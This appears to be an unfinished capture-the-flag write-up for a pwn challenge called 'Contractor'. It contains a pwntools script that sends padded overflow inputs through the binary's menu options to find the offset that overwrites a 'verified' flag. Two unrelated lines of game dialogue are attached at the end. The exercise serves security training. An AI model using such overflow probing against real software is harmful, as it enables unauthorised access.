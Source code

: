## PWN - Contractor

**_Work In Progress_**

```python
from pwn import *
import argparse
import time

context.binary = "./contractor"

OFF_VERIFIED_TO_RET = 0x24
OFF_VERIFIED_TO_LSB = 0x4

def try_override_verified(off):
    choice = None
    if off < 0x10:
        p.sendline(b'1')
        choice = 1
        base = 0
        time.sleep(0.1)
        print(p.recvuntil(b'name again: '))
        if off == 0xc:
            p.send(b'A'*off + p32(0))
        else:
            p.sendline(b'A'*off + p32(0))
    elif 0x10 <= off < 0x110:
        p.sendline(b'2')
        choice = 2
        base = 0x10
        time.sleep(0.1)
        print(p.recvuntil(b'reason again please: '))
        if off == 0x10c:
            p.send(b'A' * (off - base) + p32(0))
        else:
            p.sendline(b'A' * (off - base) + p32(0))
    elif 0x110 <= off < 0x114:
        p.sendline(b'3')
        choice = 3
        base = 0x110
        time.sleep(0.1)
        print(p.recvuntil(b'specify again: '))
        p.sendline(b'0')
    elif 0x114 <= off < 0x118:
        print('[!] WARNING: cannot be handled (prepare to cry)')
        return
    elif 0x118 <= off < 0x128:
        p.sendline(b'4')
        choice = 4
        base = 0x118
        time.sleep(0.1)
        print(p.recvuntil(b'you good at: '))
        if off == 0x11c:
            p.send(b'A' * (off - base) + p32(0))
        else:
            p.sendline(b'A' * (off - base) + p32(0))
    else:
        raise Exception('wtf bro')

    time.sleep(0.1)
    resp=p.recv(timeout=0.5)
    if b'everything is correct now?\n\n> ' in resp:
        print('[+] Got a hit at offset ' + hex(off))
        return base, off
```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!